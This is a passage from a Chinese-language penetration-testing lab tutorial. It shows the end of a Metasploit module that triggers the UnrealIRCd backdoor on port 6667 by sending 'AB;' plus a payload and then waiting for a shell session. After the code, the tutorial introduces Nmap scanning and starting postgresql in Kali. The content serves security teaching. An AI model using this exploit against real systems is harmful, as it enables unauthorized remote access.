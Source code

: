 ```
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget' => 0,
      'DisclosureDate' => 'Jun 12 2010'))

    # 默认的配置参数，攻击目标端口号为6667
    register_options(
      [
        Opt::RPORT(6667)
      ], self.class)
  end

  # 攻击过程函数
  def exploit
    
    # 连接远程服务器的端口，使用 TCP 方式
    connect

    # 打印连接信息
    print_status("Connected to #{rhost}:#{rport}...")
    banner = sock.get_once(-1, 30)
    banner.to_s.split("\n").each do |line|
      print_line("    #{line}")
    end

    # 发送激活后门程序的命令，使用 sock.put 发送内容
    print_status("Sending backdoor command...")
    sock.put("AB;" + payload.encoded + "\n")

    # 等待服务器端的回复，如果会话被创建则退出，否则循环等待直到设定的超时时间到则退出
    1.upto(120) do
      break if session_created?
      select(nil, nil, nil, 0.25)
      handler()
    end
    disconnect
  end
end
```

下面，我们将进行渗透扫描。渗透扫描在渗透攻击中，占据着非常重要的角色。只有通过渗透目标主机，充分掌握目标靶机的信息，才能更好地为后续渗透攻击打下基础。

渗透扫描，我们使用扫描神器 Nmap 对端口进行扫描。Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

首先，我们先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下：

```
# 打开 postgresql 服务
sudo service postgresql start

```
接着在实验楼的 Kali 终端中，输入命令，打开 MSF 终端：
